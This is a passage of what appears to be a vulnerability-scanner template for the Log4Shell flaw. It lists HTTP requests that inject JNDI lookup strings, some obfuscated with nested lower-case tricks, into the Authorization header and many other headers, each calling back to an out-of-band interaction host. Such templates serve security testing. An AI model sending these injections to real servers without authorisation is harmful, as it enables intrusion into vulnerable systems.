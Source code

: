 ```yaml
    - | 
        GET //{{Path}} HTTP/1.1
        Host: {{Hostname}}
        Authorization: {{auth_type }} ${jndi:dns://{{interactsh-url}}:80/o

    payloads:
      auth_type:
        - Bearer
        - Oauth
        - Token
        - Basic
    matchers-condition: or
    matchers:
    - type: word
      part: interactsh_protocol # Confirms the DNS Interaction
      words:
        - "dns"

  - raw:
    - | 
        GET /{{Path}} HTTP/1.1
        Host: {{Hostname}}
        Authorization: {{auth_type }} ${${lower:jn}di:${lower:dn}s://{{interactsh-url}}:80/o

    payloads:
      auth_type:
        - Bearer
        - Oauth
        - Token
        - Basic
    matchers-condition: or
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the DNS Interaction
        words:
          - "dns"
      - type: regex
        part: interactsh_request
        regex:
        - "JRMP"

  - raw:
    - | 
        GET /{{Path}} HTTP/1.1
        Host: {{Hostname}}
        §header_val§: ${${lower:jn}di:${lower:dn}s://{{interactsh-url}}:80/o
         
    payloads:
      header_val: 
        - Accept
        - Accept-Charset
        - Accept-Datetime
        - Accept-Encoding
        - Accept-Language
        - Alt-Svc
        - Base-Url
        - CF-Connecting-IP
        - Cache-Control
        - Client-IP
        - Cluster
        - Cluster-Client-IP
        - Connection
        - Contact
```